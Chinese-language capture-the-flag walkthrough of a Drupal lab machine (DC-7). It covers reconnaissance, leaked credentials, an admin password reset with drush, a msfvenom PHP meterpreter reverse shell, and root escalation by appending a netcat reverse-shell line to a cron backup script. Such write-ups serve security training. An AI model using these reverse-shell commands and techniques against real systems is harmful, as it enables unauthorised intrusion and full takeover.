 
# 0x00环境

攻击机：kali：192.168.1.28

靶机DC-1：192.168.1.15


# 0x01实战


## 端口扫描

```
nmap -sV -A 192.168.1.15
```

![image-20220112141640627.png](./assets/1652256667703-f7390db6-c819-4d76-9765-67b3fa6eef05.png)

可以看到开放了22号端口SSH服务和80端口HTTP服务


## 漏洞发现

访问HTTP服务，主页提示我们`这个挑战并不完全是技术性的，但如果您需要诉诸暴力破解或字典攻击，您可能不会成功`

![image-20220112142045739.png](./assets/1652256672497-686e8dc8-f3ec-4198-9315-81d0eaccbeff.png)

查看登陆页面，登录页面显示要求我们输入 D7 用户名

![image-20220112142538255.png](./assets/1652256676271-b703cf20-bf5e-4994-9850-1c4b3bd9a006.png)

在首页的左下方发现一个类似于用户名的东西，熟悉twitter的就会发现这个名字类似twitter的账号

![image-20220112143946107.png](./assets/1652256817750-08954e9e-933b-4dd0-89aa-fb6305ada3be.png)

![image-20220112142712234.png](./assets/1652256822692-0bcf85bf-5407-4702-9d7e-281fbd170a81.png)

在twitter上搜索该账号，可以得到一各github地址

![image-20220112143505707.png](./assets/1652256831029-ca7b81f4-f2d5-4cb4-a37f-731042573c9f.png)

访问github地址，一番浏览中发现在config.php文件中暴露账户和密码

![image-20220112144310546.png](./assets/1652256845352-0d4dc144-d9ab-4c43-906d-395c89b80e78.png)

使用账号和密码登录后台，登陆失败

![image-20220112144426204.png](./assets/1652256864107-178524d6-a403-4896-b0df-1468ff1ae219.png)

在前面的端口扫描中我们发现开放了22号端口SSH服务，尝试链接

![image-20220112144548593.png](./assets/1652256868225-5ebbc73e-1efc-4709-a1eb-223305118868.png)

成功登录

正当一筹莫展的时候终端显示收到一封邮件，那就去查看一下吧

![image-20220112154314646.png](./assets/1652256888994-85968f1a-3633-4f65-bbd0-45e6a6b37ef8.png)

在邮件中查看到`/opt/scripts/backups.sh`脚本文件，而且仔细观察可以发现邮件是间隔15min发一次的，也就是说backups.sh脚本文件15min分钟运行一次。

查看backups.sh脚本文件权限和内容（养成习惯看见脚本文件就查看权限，会有意想不到的收获）

![image-20220112153838739.png](./assets/1652256897607-8bc8853b-49cf-41df-a9f1-e0d61086b2ce.png)

可以看到backups.sh脚本文件以root和www-data运行在同一组中

查看脚本文件

![image-20220112145537851.png](./assets/1652256908427-2f63cfd5-ec5c-4c29-853c-3c903a6650b8.png)

在脚本文件中发现了drush命令，百度一下

![image-20220112150122428.png](./assets/1652256930208-84286e23-884a-48ff-8052-6574d405214f.png)

drush命令可以修改用户密码，而drupalCMS默认存在admin账户，修改admin账户的密码

```
cd /var/www/html/
drush user-password  admin --password=123456
```

![image-20220112150454179.png](./assets/1652256935258-1bd12e57-50bf-4561-ad44-0c9c25966225.png)

登陆后台，成功

![image-20220112150554204.png](./assets/1652256939459-b2a799b1-74b2-43df-ba8c-8baacf84a2c7.png)


## 反弹shell

在后台发现我们可以新建页面

![image-20220112150813405.png](./assets/1652256944462-e20b9481-a7c2-4991-a0c3-041b5ca61436.png)

但是不支持php

![image-20220112150844026.png](./assets/1652256949287-89a9dc1e-145b-46f5-968c-5e3f63d441fb.png)

通过Drupal官网我了解到可以安装PHP代码的插件，使其支持php代码

[https://www.drupal.org/project/php/releases/8.x-1.1](https://www.drupal.org/project/php/releases/8.x-1.1)

![image-20220112151337520.png](./assets/1652256952869-f5d5c996-b948-4211-9146-56cea15637dc.png)

安装php插件

![image-20220112151450761.png](./assets/1652256956595-a198027a-5e6a-49f9-b748-66b15c887c59.png)

安装后激活模块

![image-20220112151756543.png](./assets/1652256960422-e65f52a4-25ab-4037-81b2-c501773e9591.png)

![image-20220112151902936.png](./assets/1652256963973-40c0d683-2931-4c0d-95b5-383d29f91ae6.png)

创建木马

```
msfvenom -p php/meterpreter/reverse_tcp  lhost=192.168.1.28 port=4444 -f raw
```

![image-20220112152106345.png](./assets/1652256979114-eef7233e-ddb9-4315-871a-c2d54fb83c5d.png)

在后台创建木马文件

![image-20220112152244204.png](./assets/1652256983087-1d90ea11-c978-4f8d-9d0c-0d38fa36fd22.png)

![image-20220112152322718.png](./assets/1652256987493-8530d371-3cac-4ae7-952a-11bf205c4d12.png)

创建监听

```
┌──(root💀kali)-[~]
└─# msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.1.28
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```

![image-20220112152451900.png](./assets/1652256992204-b4d5d73c-4bf3-4eb3-a10c-dfe1ff31dcde.png)

访问XMTX

![image-20220112152628533.png](./assets/1652256996501-deaf9f89-288b-4506-9fb8-4035c5b76336.png)

成功反弹shell

![image-20220112152650729.png](./assets/1652257000288-d0e28b61-748e-4322-b2d4-f76e6e759379.png)


## 提权

查看系统版本

```
cat /proc/version
cat /etc/issue
```

![image-20220112153251189.png](./assets/1652257004533-e6d7787f-3e79-4d1f-b530-250d31400d21.png)

在这里我感觉到了嘲讽`Please enjoy your stay(祝你在这停留的愉快)`根据这句话多半不可能是在这里提权了。

在前面我们看到backups.sh脚本文件以root和www-data运行在同一组中，并且backups.sh脚本15min运行一次。我们现在是www-data权限可以对backups.sh脚本进行操作，如果向backups.sh脚本写入恶意代码，当backups.sh脚本以root身份运行时我们就可以得到root权限。

设置监听

![image-20220112155007689.png](./assets/1652257017078-0567df0f-d42c-4e37-b637-cd3b0b37988e.png)

写入恶意代码

```
echo nc 192.168.1.28 12345 -e /bin/bash >> /opt/scripts/backups.sh
```

![image-20220112155129464.png](./assets/1652257021575-5dd51b29-9192-491a-a5c3-58f64c97ccca.png)

接下来就是等待脚本运行了（最多15min），成功反弹

![image-20220112160114748.png](./assets/1652257036311-d2ff6df4-7ac3-4c2d-903b-e08f2bef431d.png)


## final-flag

在root根目录下找到final-flag

![image-20220112160238050.png](./assets/1652257042254-2d40aab5-beee-484a-abc2-e9462c649555.png)
